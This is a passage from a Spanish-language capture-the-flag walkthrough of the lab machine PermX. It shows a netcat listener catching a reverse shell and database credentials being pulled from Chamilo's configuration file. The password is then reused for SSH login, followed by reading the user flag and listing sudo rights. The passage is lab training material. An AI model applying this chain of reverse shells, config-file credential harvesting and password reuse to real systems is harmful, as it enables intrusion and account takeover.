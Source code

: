 ```shell
❯ nc -nlvp 4444
Connection from 10.10.11.23:51632
bash: cannot set terminal process group (1190): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$
```

Enumerando el sistema, nos encontramos con el archivo
`/var/www/chamilo/app/config/configuration.php` , que contiene las credenciales de la base de datos.

```shell
www-data@permx:/var/www/chamilo/app/config$ cat configuration.php | grep db_user 
$_configuration['db_user'] = 'chamilo';
www-data@permx:/var/www/chamilo/app/config$ cat configuration.php | grep db_password
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
www-data@permx:/var/www/chamilo/app/config$ 
```

Siguiendo con la enumeración de usuarios, vemos a mtz, que tiene un directorio home y se le asigna un
shell estándar, lo que indica que podría utilizarse para iniciar sesión.

```shell
❯ ssh mtz@permx.htb

The authenticity of host 'permx.htb (10.10.11.23)' can't be established.
ED25519 key fingerprint is SHA256:u9/wL+62dkDBqxAG3NyMhz/2FTBJlmVC1Y1bwaNLqGA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'permx.htb' (ED25519) to the list of known hosts.
mtz@permx.htb's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

...

Last login: Tue Nov  5 15:52:37 2024 from 10.10.16.71
mtz@permx:~$ 
```

Ya podemos obtener la flag del usuario. 

```shell
mtz@permx:~$ cat user.txt 
586ecadf83fe12a076730f0562fad00f
mtz@permx:~$
```

### Escalada de privilegios

Al comprobar los permisos sudo para el usuario `mtz`, vemos que el usuario mtz tiene permiso para
ejecutar el script `/opt/acl.sh` como cualquier usuario `ALL`, sin que se le pida una contraseña `NOPASSWD`

```shell
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
    (ALL : ALL) NOPASSWD: ALL
    (ALL : ALL) NOPASSWD: ALL
mtz@permx:~$
```
